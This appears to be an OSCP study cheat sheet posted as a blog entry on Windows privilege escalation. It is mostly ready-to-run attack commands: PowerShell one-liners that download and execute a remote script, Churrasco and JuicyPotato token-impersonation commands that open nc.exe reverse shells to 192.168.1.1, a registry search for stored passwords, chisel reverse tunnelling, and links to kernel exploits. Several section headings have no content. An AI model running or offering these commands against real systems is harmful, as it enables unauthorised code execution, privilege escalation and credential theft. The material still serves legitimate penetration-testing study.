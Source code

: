 ```yaml
---
title: Windows Privilege Escalation
author: linatl
category: "OSCP"
date: "2021-03-13 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```




/// To be tested:
###### Start Process with PowerShell
```
How to use powershell to pop a second shell
> Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://192.168.1.1/file.ps1')"


Starting a shell as Administrator (when the permissions are right)

First: make a variable of the password.
Because windows doesnt like it when you pass passwords in plain text to a command.
> $SecPass = ConvertTo-SecureString "password" -AsPlainText -Force
> $cred = New-Object System.Management.Automation.PSCredential('Administrator', $SecPass)

Pop the shell:
> Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://192.168.1.1/file.ps1')" -Credential $cred
```


###### Token Kidnapping on Windows Server 2003 / 2008 with Churrasco

```
If you are Network Service or Local Service and SeImpersonatePrivilege is Enabled, this will probably work.

> git clone https://github.com/Re4son/Churrasco
after uploading the exe:

Execute Command
> churrasco.exe -d "whoami"
Using nc.exe to start a reverse shell connection
> churrasco.exe -d "c:\Users\username\Documents\nc.exe -e cmd.exe 192.168.1.1 443"
```

###### Potato attacks
```
If both SeChangeNotifyPrivilege and SeImpersonatePrivilege are enabled

Hot Potato
https://foxglovesecurity.com/2016/01/16/hot-potato/

Rotten Potato
https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/
https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/rottenpotato

Juicy Potato
https://github.com/ohpe/juicy-potato
https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato
x86 variant:
https://github.com/ivanitlearning/Juicy-Potato-x86/releases/tag/1.2

Example juicy potato:

List of CLSID's:
http://ohpe.it/juicy-potato/CLSID/

On attacker system:
> nc -nvlp 80
On target system:
First upload nc.exe & JuicyPotato.exe, and place it in current dir
> JuicyPotato.exe -l 80 -p c:\cmd.exe -a "/c c:\nc.exe -e cmd.exe 192.168.1.1 80" -t *
Or using a different CLSID:
> JuicyPotato.exe -l 80 -p c:\cmd.exe -a "/c c:\nc.exe -e cmd.exe 192.168.1.1 80" -c {03ca98d6-ff5d-49b8-abc6-03dd84127020} -t *
```

###### Autologon Credentials in registry
```
search for "Password" string:
> reg query HKLM /f Password /t Reg_SZ /s
query the specific registry entry (example):
> reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

###### RunAs
###### Registry Tricks
###### AlwaysInstallElevated
###### Autorun
###### Service Permissions
###### Unquoted Path
###### DLL Hijacking


###### Port Forwarding
```

https://github.com/jpillora/chisel
1 upload chisel to the box

2 start chisel on kali
$ ./chisel_1.6.0_linux_amd64 server -p 8000 --reverse

3 run chisel on the target
$ .\c.exe client 10.10.14.20:8000 R:8888:localhost:8888

4 see if the connection is made
port 8888 on kali should be listening now:
$ netstat -ntlp

5 do stuff from kali on address 127.0.0.1 port 8888
```


###### Schtasks
```
> schtasks /query /fo LIST /v
> tasklist /SVC
```


###### Windows (Kernel) Exploits
```
MS10-059 (SecWiki)
MS11-046 (SecWiki)
MS16-032 (Use the one from Empire)
MS15-051 (SecWiki)
```

###### Kernel Exploits ~ Resources
```
Seclists
https://github.com/SecWiki/windows-kernel-exploits

Empire
https://github.com/EmpireProject/Empire/tree/master/data/module_source
```
